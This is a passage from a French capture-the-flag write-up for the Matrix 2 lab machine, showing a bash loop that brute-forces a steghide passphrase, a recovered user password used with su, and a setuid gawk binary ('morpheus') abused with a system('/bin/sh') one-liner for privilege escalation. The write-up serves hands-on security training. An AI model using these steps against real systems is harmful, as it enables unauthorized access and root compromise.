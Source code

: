```console
in
to
your
You
is
and
Welcome
Matrix

root@blinils:~# cat test_password_steghide.sh 
#!/bin/bash
for WORD in `cat dicoMatrix2.txt`
do
	steghide extract -sf h1dd3n.jpg -p "$WORD" 2>/dev/null
	if [[ $? = 0 ]]; then
			echo "[+] Found:" $WORD
		break
	fi
done

root@blinils:~# ./test_password_steghide.sh
[+] Found: n30

root@blinils:~# ls
dicoMatrix2.txt  h1dd3n.jpg  n30.txt  test_password_steghide.sh

root@blinils:~# cat n30.txt 
P4$$w0rd
```

Le mot de passe trouvé est bien celui de l'utilisateur ```n30``` !

```console
testuser@Matrix_2:/$ id
uid=1001(testuser) gid=1001(testuser) groups=1001(testuser)

testuser@Matrix_2:/$ su - n30
Password: [P4$$w0rd]

n30@Matrix_2 ~$ id
uid=1000(n30) gid=1000(n30) groups=1000(n30)
```

## Élévation de privilèges avec le binaire morpheus (alias gawk)

L'historique des commandes Unix de l'utilisateur ```n30``` nous aiguille grandement pour la fin de ce CTF : en effet, les commandes ```ls -l /usr/bin/morpheus``` et ```morpheus 'BEGIN {system("/bin/sh")}'``` ont le don d'intriguer. Pour rappel, le binaire ```/usr/bin/morpheus``` possède le [bit setuid](https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/).

```console
n30@Matrix_2 ~$ ls -l /usr/bin/morpheus
-r-sr-x--- 1 root n30 662240 Dec  8  2018 /usr/bin/morpheus

n30@Matrix_2 ~$ /usr/bin/morpheus
Usage: morpheus [POSIX or GNU style options] -f progfile [--] file ...
Usage: morpheus [POSIX or GNU style options] [--] 'program' file ...
--snip--

To report bugs, see node `Bugs' in `gawk.info', which is
section `Reporting Problems and Bugs' in the printed version.

gawk is a pattern scanning and processing language.
By default it reads standard input and writes standard output.
```